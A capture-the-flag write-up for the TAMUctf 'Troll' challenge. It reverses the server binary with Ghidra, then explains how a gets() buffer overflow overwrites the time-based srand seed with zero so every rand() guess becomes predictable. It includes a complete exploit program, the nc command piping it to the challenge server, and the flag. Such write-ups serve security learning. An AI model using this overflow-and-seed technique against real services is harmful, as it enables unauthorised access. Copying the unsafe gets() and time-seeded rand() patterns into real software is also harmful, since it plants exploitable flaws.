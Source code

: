 # Troll

## Description

> There's a troll who thinks his challenge won't be solved until the heat death of the universe.
> 
> `nc challenges.tamuctf.com 4765`

Binary of the server is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).

```c
undefined8 main(void)
{
  int iVar1;
  char local_98 [64];
  char local_58 [44];
  int local_2c;
  FILE *local_28;
  int local_1c;
  time_t local_18;
  int local_c;
  
  setvbuf(stdout,(char *)0x2,0,0);
  local_18 = time((time_t *)0x0);
  puts("Who goes there?");
  gets(local_58);
  printf("Welcome to my challenge, %s. No one has ever succeeded before. Will you be thefirst?\n",
         local_58);
  srand((uint)local_18);
  local_c = 0;
  while( true ) {
    if (99 < local_c) {
      puts("You\'ve guessed all of my numbers. Here is your reward.");
      local_28 = fopen("flag.txt","r");
      if (local_28 != (FILE *)0x0) {
        fgets(local_98,0x40,local_28);
        puts(local_98);
      }
      puts("Goodbye.");
      return 0;
    }
    iVar1 = rand();
    local_1c = iVar1 % 100000 + 1;
    puts("I am thinking of a number from 1-100000. What is it?");
    __isoc99_scanf(&DAT_001020a5,&local_2c);
    if (local_1c != local_2c) break;
    puts("Impressive.");
    local_c = local_c + 1;
  }
  puts("You have failed. Goodbye.");
  return 0;
}
```

So, after asking for the user's name, the program asks the user to guess 100 numbers from 1 to 100 000, which are chosen randomly at runtime by the program. If the user succeeds, then he gets the flag.


How can we predict the numbers chosen by the program?

### Pseudo random generators

On computers, it is actually difficult to create real randomness, therefore pseudo randomness is used instead. The way pseudorandom generators work is to feed it with a seed, which is hopefully really random. 

Here the randomness comes from the starting time of the program: the line `local_18 = time((time_t *)0x0);` retrieves the local time of the machine, then the line `srand((uint)local_18);` feeds the content of the variable to the pseudorandom generator (which is then used with the `rand` function to create the random numbers).

So if we can synchronise with the server, then we can retrieve the local time, send our own version of the pseudorandom generator (with the same seed as we have synchronised), and it would yield the exact same numbers.

However, tests show that synchronising exactly with the server is tricky business, even if the precision of the time function is of the order of the second.

So another option is to directly tamper with the pseudo random generator by injecting a seed of our choosing.

### Buffer overflow

Hopefully, the program asks for the user's name between the moment it reads the server time and the moment it feeds the seed into the pseudo random generator. Moreover, it uses `gets`, which is vulnerable to buffer overflow. Therefore we can overflow the name buffer to fill the seed variable with a chosen value (let's take 0 for instance). This will allow us to predict the chosen values.

Variables are declared (and placed on the stack) in this order:

```c
int iVar1;
char local_98 [64];
char local_58 [44];
int local_2c;
FILE *local_28;
int local_1c;
time_t local_18;
int local_c;
```

The name buffer is `local_58`, and the seed variable is `local_18`, so we want to fill 44 + 4 + 8 + 4 random characters, and then 8 null bytes. So we can directly inject 68 null characters.

### Full exploit

The exploit is therefore as follow:
- overflow the buffer to fill the seed variable. This is done by injecting 68 null bytes.
- initialise a local pseudo random generator with seed 0, and feed the same random numbers to the program.

This can be performed with the following c program:

```c
#include <stdio.h> 
#include <stdlib.h> 
  
int main () 
{ 
    int i;
      
    srand(0); 

    for(i = 0; i<68; i++)
        printf("%c", 0);
    printf("\n");
    
    for (i = 0; i < 100; i++)
    {
        printf("%d\n", rand() % 100000 + 1); 
    }
      
    return 0; 
}
```

Compile the program with

```bash
gcc srand_attack.c -o srand_attack
```

Then run the program and pipe its output to the remote server

```bash
./srand_attack | nc challenges.tamuctf.com 4765
```

Flag: `gigem{Y0uve_g0ne_4nD_!D3fe4t3d_th3_tr01L!}`